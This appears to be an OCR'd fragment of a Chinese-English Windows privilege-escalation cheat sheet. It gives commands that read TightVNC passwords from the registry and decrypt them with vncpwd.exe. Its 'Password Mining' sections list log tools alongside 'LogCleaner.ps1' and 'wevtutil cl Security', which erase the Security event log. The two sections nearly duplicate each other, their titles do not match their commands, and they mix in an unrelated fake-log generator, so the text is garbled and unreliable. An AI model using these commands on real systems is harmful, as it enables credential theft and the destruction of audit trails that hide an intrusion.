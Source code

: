 在命令提示符下键入:

`reg query HKEY_CURRENT_USER\Software\TightVNC\Server /v Password`

在命令提示符下键入:

`reg query HKEY_CURRENT_USER\Software\TightVNC\Server /v PasswordViewOnly`

记下加密的密码并输入:

`C:\Users\User\Desktop\Tools\vncpwd\vncpwd.exe [Encrypted Password]`

从输出中记下凭据.

### **Password Mining in General Events via SeAudit**

域：No

Local Admin: Yes

操作系统: Windows

类型: Enumeration & Hunt

方法:

1.

`./WELA.ps1 -LogFile .\Security.evtx -EventIDStatistics`

2.

`flog -s 10s -n 200`

Or

`invoke-module LogCleaner.ps1`

### **Password Mining in Security Events via SeSecurity**

域：No

Local Admin: Yes

操作系统: Windows

类型: Enumeration & Hunt

方法:

1.

`./WELA.ps1 -LogFile .\Security.evtx -EventIDStatistics`

2.

`flog -s 10s -n 200`

Or

`wevtutil cl Security`

### **Startup Applications**
